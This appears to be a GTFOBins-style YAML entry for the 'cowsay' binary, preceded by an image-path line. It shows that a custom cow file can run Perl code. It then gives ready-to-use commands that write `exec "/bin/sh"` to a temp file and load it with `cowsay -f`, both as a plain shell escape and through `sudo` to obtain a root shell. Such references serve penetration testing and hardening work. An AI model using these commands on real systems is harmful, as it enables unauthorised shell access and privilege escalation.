 description: It allows to execute [`perl`](/gtfobins/perl) code, other functions may apply.
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'exec "/bin/sh";' >$TF
        cowsay -f $TF x
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'exec "/bin/sh";' >$TF
        sudo cowsay -f $TF x
---
